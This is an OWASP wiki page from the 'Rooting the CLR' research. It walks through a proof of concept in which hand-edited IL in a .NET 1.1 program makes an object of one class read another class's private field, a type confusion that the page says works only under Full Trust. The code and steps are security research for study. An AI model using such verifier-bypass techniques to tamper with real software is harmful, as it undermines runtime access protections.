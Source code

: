 While doing my Rooting the CLR research I found something which I thing
could be a 'Type Confusion issue' in .Net 1.1 (see more details about
these issues in this great document on Java Security published by the
LSD Research group <http://lsd-pl.net/papers.html#java>)

Here are my test:

1\) Compile this:

`using System;`
`namespace RootingTheClr`
`{`
`   class classTest`
`   {`
`       public static void Main()`
`       {`
`           Console.WriteLine("\n\n classTest \n\n");`
`           normalClass ncTest = new normalClass();                  `
`           maliciousClass mcTest = (maliciousClass)new maliciousClass();           `
`            normalClass ncTestTarget = ncTest;`
`           Console.WriteLine("Public = " + mcTest.iPublicVar + "    Private = " + mcTest.iPrivateVar );`
`       }`
`   }`

`   class normalClass`
`    {`
`       public int iPublicVar;`
`       private int iPrivateVar;`

`       public normalClass()`
`       {`
`           iPrivateVar = 100;`
`           iPublicVar = 999;`
`       }`
`   }`

`   class maliciousClass`
`   {`
`       public int iPublicVar;`
`       public int iPrivateVar;`

`       public maliciousClass()`
`       {`
`           iPrivateVar = 1;`
`           iPublicVar = 9;`
`       }`
`   }`
`}`

2\) and you should get this (note the value of Private):

`csc classtest.cs`
`Microsoft (R) Visual C# .NET Compiler version 7.10.3052.4`
`for Microsoft (R) .NET Framework version 1.1.4322`
`Copyright (C) Microsoft Corporation 2001-2002. All rights reserved.`

`classTest.cs(21,15): warning CS0169: The private field`
`       'RootingTheClr.normalClass.iPrivateVar' is never used`

`classTest.exe`

`classTest`

`Public = 9    Private = 1`

3\) run ILDASM on the exe:

`ildasm classTest.exe /out:classTest.il`

`// WARNING: Created Win32 resource file classTest.res`

4\) Notepad it and make this change:

`notepad classTest.il`

`replace`

`     IL_0010:  newobj     instance void RootingTheClr.maliciousClass::.ctor()`

`with`

`     IL_0010:  newobj     instance void RootingTheClr.normalClass::.ctor()`

5\) Ilasm the file

`ilasm classTest.il`

`Microsoft (R) .NET Framework IL Assembler.  Version 1.1.4322.573`
`Copyright (C) Microsoft Corporation 1998-2002. All rights reserved.`
`Assembling 'classTest.il' , no listing file, to EXE --> 'classTest.EXE'`
`Source file is ANSI`

`Assembled method classTest::Main`
`Assembled method classTest::.ctor`
`Assembled method normalClass::.ctor`
`Assembled method maliciousClass::.ctor`
`Creating PE file`

`Emitting members:`
`Global`
`Class 1 Methods: 2;`
`Class 2 Fields: 2;      Methods: 1;`
`Class 3 Fields: 2;      Methods: 1;`
`Resolving member refs: 8 -> 8 defs, 0 refs`
`Writing PE file`
`Operation completed successfully`

6\) execute it (note the value of Private)

`classTest.exe`

`classTest`

`Public = 999    Private = 100`

7\) This means that we successuflly were able to cast an object of the
class normalClass into an object of the class maliciousClass. The attack
vector occours because iPrivateVar is a pubic var in maliciousClass and
a private var in normalClass

`class maliciousClass`
`   {`
`       public int iPublicVar;`
`       public int iPrivateVar;`

`...`

`   class normalClass`
`   {`
`       public int iPublicVar;`
`       private int iPrivateVar;`

`...`

`---------`

  - 8\) what is interresting is that this only works in Full Trust, if
    you try to run this in a partial trust environment like from a local
    network share) you will get the following error:

`classTest.exe`

`Unhandled Exception: System.Security.VerificationException: Operation could destabilize the runtime.`
`  at RootingTheClr.classTest.Main()`

This means that the CLR in partial trust does do some verification on
the compliled Byte code which is not done in Full Trust (which will mean
that Microsoft Security Response Team will say that this is not a
vulnerabiltiy and occours by design :)

[link not working](Category:FIXME "wikilink") [Category:OWASP .NET
Project](Category:OWASP_.NET_Project "wikilink")